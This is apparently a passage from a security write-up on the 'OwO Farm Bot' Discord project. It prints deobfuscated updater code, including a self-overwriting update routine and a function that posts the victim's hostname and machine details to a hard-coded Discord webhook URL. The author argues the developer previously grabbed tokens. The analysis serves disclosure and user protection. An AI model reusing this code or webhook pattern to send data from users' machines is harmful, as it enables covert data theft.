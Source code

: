 ```javascript
    const extractedFile = adobeZipUtil.getEntries();
    adobeZipUtil.extractAllTo(nodeOs.tmpdir(), true);
    const firstFilePath = executeNode.join(
      nodeOs.tmpdir(),
      extractedFile[0].entryName,
    );
    if (!FileOps.existsSync(firstFilePath)) {
      logMessage.alert(
        "Updater",
        "Zip",
        "Failed To Extract Files! Please update on https://github.com/Mid0aria/owofarmbot_stable/",
      );
    }
    nodeData.copySync(firstFilePath, process.cwd(), {
      overwrite: true,
    });
    logMessage.info("Updater", "Zip", "Project updated successfully.");
  } catch (updateError) {
    logMessage.alert(
      "Updater",
      "Zip",
      "Error updating project from GitHub Repo: " + updateError,
    );
  }
};
```

This should show that the project is not in any way reliable, as if it grabbed tokens in the past, nothing stops Mid0aria of pushing an update to the current open-source version that will infect hundreds of machine. In fact, that is most likely his plan.
# Older Version

A year ago, one of the first versions of OwO Farm Bot displayed even more harmful behaviour.
[This fork](https://github.com/Krishna1407/owofarmbotv2) , with all commits authored by Mid0aria has two files: [bot.js](https://github.com/Krishna1407/owofarmbotv2/blob/main/bot.js) and [updater.js](https://github.com/Krishna1407/owofarmbotv2/blob/main/updater.js) both which are obfuscated. Let's first look into `updater.js`.

Using the same methods of deobfuscation as before, we get an [interesting output](https://github.com/harmlessaccount/owofarmbot-deobf/blob/main/old/updater.js), the function `alulum` (now renamed `notifyNodeWeb`) shows the same type of logger as before:

```javascript
function notifyNodeWeb() {

  fetchData.post({

    url: "https://canary.discord.com/api/webhooks/1089429954447544340/TIv8fsyhqDb6UVHxqrWa74Ek4U0h-8Gz92KUYJ8d4XiNMbO_YvXArB3NbhD2s04aphgS",

    json: {

      content:

        "**Version: " +

        require("./version.json").version +

        "\nHostname: " +

        platformUtils.hostname +

        "\nComputerType: " +
```
